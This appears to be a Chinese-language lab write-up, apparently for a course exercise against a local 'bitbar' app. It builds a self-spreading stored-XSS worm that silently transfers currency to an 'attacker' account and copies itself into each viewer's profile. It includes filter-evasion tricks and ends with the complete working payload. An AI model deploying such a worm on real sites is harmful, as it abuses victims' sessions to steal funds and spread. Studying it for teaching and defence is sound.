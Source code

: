 ```js
var request = new XMLHttpRequest();
request.open("POST", "http://localhost:3000/post_transfer");
request.setRequestHeader("Content-type","application/x-www-form-urlencoded");
request.withCredentials = true;
try {
    request.send("quantity=1&destination_username=attacker");
} catch (err) {
//
} finally {
    //xxxx 带执行的操作
}
```

转帐完成之后，我们需要立即更新当前浏览用户的 `profile`

设置 `profile` 的数据包如下



只需要向路由 `/set_profile` 发送请求即可

```js
request = new XMLHttpRequest();
request.open("POST", "http://localhost:3000/set_profile", true);
request.setRequestHeader("Content-type","application/x-www-form-urlencoded");
request.withCredentials = true;
request.send("new_profile=".concat(escape(document.getElementById('hax-wrap').outerHTML)));
```

遇到的问题：

1. 发送的数据含有html转移后的 & 符号。如图


这里我采用的是 `String.fromCharCode()` 来将其做一次转换

2. 字符串拼接只能用 `concat` 而不能用 `+` ，因为 `+` 号在 html 中是空格的意思

最后的代码

```html
<span id="wrap">
<span id="bitbar_count" class="eval(document['getElementById']('pxy')['innerHTML'])"></span>
<span id="pxy">
document.getElementById('pxy').style.display = "none";
setTimeout(function(){

    var request = new XMLHttpRequest();
    request.open("POST", "http://localhost:3000/post_transfer");
    request.setRequestHeader("Content-type","application/x-www-form-urlencoded");
    request.withCredentials = true;
    try {
        request.send("quantity=1".concat(String.fromCharCode(38)).concat("destination_username=attacker"));
    } catch (err) {
    //
    } finally {
        request = new XMLHttpRequest();
        request.open("POST", "http://localhost:3000/set_profile", true);
        request.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        request.withCredentials = true;
        request.send("new_profile=".concat(escape(document.getElementById('wrap').outerHTML)));
    }

}, 0);
10;
</span>
<p>233333</p>
</span>
```